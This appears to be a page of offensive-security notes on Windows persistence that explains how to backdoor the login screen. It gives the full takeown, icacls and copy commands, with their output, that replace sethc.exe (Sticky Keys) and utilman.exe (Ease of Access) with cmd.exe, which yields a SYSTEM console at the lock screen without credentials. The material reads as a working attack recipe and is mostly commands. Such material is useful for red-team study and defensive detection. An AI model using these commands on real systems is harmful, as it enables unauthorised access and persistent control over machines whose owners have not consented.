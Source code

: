 # Backdooring the Login Screen / RDP

If we have physical access to the machine (or RDP in our case), you can backdoor the login screen to access a terminal without having valid credentials for a machine.

## Sticky Keys

To establish persistence using Sticky Keys, we will abuse a shortcut enabled by default in any Windows installation that allows us to activate Sticky Keys by pressing SHIFT 5 times.

A straightforward way to backdoor the login screen consists of replacing sethc.exe with a copy of cmd.exe. That way, we can spawn a console using the sticky keys shortcut, even from the logging screen.

To overwrite sethc.exe, we first need to take ownership of the file and grant our current user permission to modify it. Only then will we be able to replace it with a copy of cmd.exe. We can do so with the following commands:

```
C:\> takeown /f c:\Windows\System32\sethc.exe

SUCCESS: The file (or folder): "c:\Windows\System32\sethc.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\sethc.exe /grant Administrator:F
processed file: C:\Windows\System32\sethc.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
Overwrite C:\Windows\System32\sethc.exe? (Yes/No/All): yes
        1 file(s) copied.
```

Now, we can enter SHIFT 5 times to open terminal with system privileges.

<figure><img src="../../../.gitbook/assets/5062148957ec1d70dccd080bdca93ddf.png" alt=""><figcaption></figcaption></figure>

## Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

<figure><img src="../../../.gitbook/assets/73c7698a015de5a988fd815ff3e41473.png" alt=""><figcaption></figcaption></figure>

When we click the ease of access button on the login screen, it executes C:\Windows\System32\Utilman.exe with SYSTEM privileges. If we replace it with a copy of cmd.exe, we can bypass the login screen again.

To replace utilman.exe, we do a similar process to what we did with sethc.exe:

```
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

Then logout, and click on "Ease of Access" button.
